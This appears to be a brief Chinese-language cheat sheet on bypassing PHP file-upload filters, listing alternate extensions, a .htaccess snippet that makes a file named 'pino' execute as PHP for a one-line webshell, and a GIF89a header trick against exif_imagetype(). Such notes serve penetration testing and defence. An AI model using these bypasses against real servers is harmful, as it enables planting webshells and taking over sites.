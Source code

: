 1.文件后缀名绕过：php、php3、php4、php5、php7、pht、phtml、phps

2.上传.htaccess文件，文件内容为

```
<FilesMatch "pino">
SetHandler application/x-httpd-php
</FilesMatch>
```

然后上传文件名为pino的一句话木马即可(会被当做php解析)

3.文件头加GIF89a绕过

适用于绕过**exif_imagetype()** ：读取一个图像的第一个字节并检查其签名。